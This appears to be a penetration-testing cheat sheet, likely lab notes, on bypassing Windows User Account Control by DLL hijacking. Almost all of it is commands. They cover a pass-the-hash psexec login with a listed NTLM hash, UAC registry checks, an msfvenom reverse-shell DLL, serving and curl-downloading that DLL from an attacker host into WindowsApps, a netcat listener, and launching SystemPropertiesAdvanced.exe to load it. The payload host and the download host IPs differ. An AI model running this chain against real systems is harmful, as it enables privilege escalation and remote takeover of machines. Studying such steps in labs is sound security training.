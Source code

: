 ```
impacket-psexec administrator@10.129.43.42 -hashes :7796ee39fd3a9c3a1844556115ae1a54
```
# User Account Control
### Verify Current User
```
whoami /user
```
### Confirming Admin Group Membership
```
net localgroup administrators
```
### Reviewing User Privileges
```
net localgroup administrators
```
### Confirming UAC is enabled
```
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```
### Check UAC Level
```
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin
```
### In Powershell check Windows Version
```
[environment]::OSVersion.Version
```
Verify windows version to release

https://en.wikipedia.org/wiki/Windows_10_version_history

https://egre55.github.io/system-properties-uac-bypass/
### Path Variable
```
cmd /c echo %PATH%
```
### Create Payload
```
msfvenom-p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
```
### Start HTTP Server
```
sudo python3 -m http.server 8080
```
### Download payload
```
curl http://10.10.14.214:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```
### Start Listener
```
nc -lvnp 8443
```
### Execute in CMD on host
```
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```